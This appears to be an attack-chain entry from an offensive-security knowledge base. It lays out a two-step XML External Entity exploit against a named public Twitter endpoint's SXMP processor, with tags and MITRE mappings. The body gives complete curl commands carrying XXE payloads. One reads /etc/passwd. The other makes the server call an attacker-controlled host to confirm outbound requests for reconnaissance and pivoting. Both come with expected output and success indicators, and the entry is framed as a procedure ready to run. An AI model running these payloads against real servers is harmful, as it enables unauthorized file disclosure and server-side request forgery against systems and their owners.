

---
tags:
  - xxe
  - xml
  - file-disclosure
  - outbound-requests
  - web-vulnerability
type: attack_chain
tools:
  - '[[tools/GitHub-Cloudhopper-Commons]]'
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
  - '[[Collection]]'
commands:
  - '[[commands/curl-xxe-file-read]]'
  - '[[commands/curl-xxe-outbound-request]]'
platforms:
  - Web
  - Linux
complexity: medium
procedures:
  - '[[procedures/Exploit-XXE-for-Local-File-Read]]'
  - '[[procedures/Exploit-XXE-for-Outbound-Requests]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Exploitation of an XML External Entity (XXE) vulnerability in Twitter's SXMP
  processor to read local files and make outbound requests.
skill_level: intermediate
impact_level: high
id: 41f412e1-c097-4833-bb6c-d8e9de1ad2ea
created_at: '2025-12-13T08:59:40.057Z'
updated_at: '2025-12-13T08:59:40.057Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# XXE Exploitation in SXMP Processor for File Disclosure and Outbound Requests

Multi-stage attack chain demonstrating the exploitation of an XXE vulnerability in the SXMP processor on sms-be-vip.twitter.com, enabling arbitrary local file reads and outbound web requests. The attack begins with identifying the vulnerable endpoint via public sources and crafting malicious XML payloads to exploit improper entity handling, leading to sensitive data disclosure and potential internal network reconnaissance.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/GitHub-Cloudhopper-Commons]]
- curl (for sending HTTP requests)

### Target Environment

- Target OS/Platform: Web, Linux
- Required services/ports: HTTP/HTTPS on sms-be-vip.twitter.com
- Network access requirements: Public internet access to the endpoint

### Initial Access Requirements

- Credential requirements: None (public endpoint)
- Network position: External attacker
- Prior access needed: None

## Detailed Attack Procedures

### Step 1: Exploit XXE for Local File Read
procedure: [[procedures/Exploit-XXE-for-Local-File-Read]]

**Objective**: Send a crafted XML payload to exploit the XXE vulnerability and read arbitrary local files, such as /etc/passwd.

**Instructions**: Use [[commands/curl-xxe-file-read]] to send a POST request with a malicious XML payload that defines an external entity referencing a local file:

```bash
curl -X POST https://sms-be-vip.twitter.com/api/sxmp/1.0 \
  -H 'Content-Type: application/xml' \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>'
```

**Expected Output**: The response echoes back the contents of /etc/passwd in the error message.

**Success Indicators**:
- File contents disclosed in response
- Confirmation of XXE vulnerability

### Step 2: Exploit XXE for Outbound Requests
procedure: [[procedures/Exploit-XXE-for-Outbound-Requests]]

**Objective**: Modify the XML payload to test for outbound web requests, confirming the ability to make external connections for potential port scanning or pivoting.

**Instructions**: Use [[commands/curl-xxe-outbound-request]] to send a POST request with an XML payload referencing an external URL:

```bash
curl -X POST https://sms-be-vip.twitter.com/api/sxmp/1.0 \
  -H 'Content-Type: application/xml' \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker-controlled-server.com/test">]><foo>&xxe;</foo>'
```

**Expected Output**: The server attempts to fetch the external URL, potentially returning its contents or confirming the request in attacker logs.

**Success Indicators**:
- Outbound request observed (e.g., via attacker server logs)
- Confirmation of internet access from the vulnerable host

## Attack Chain Summary

### Key Achievements

1. Disclosure of sensitive local files like /etc/passwd
2. Ability to make outbound requests for internal reconnaissance
3. Potential for escalation via accessed credentials or certificates

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Discovery]]
- [[Collection]]

*Last updated: [TIMESTAMP]*
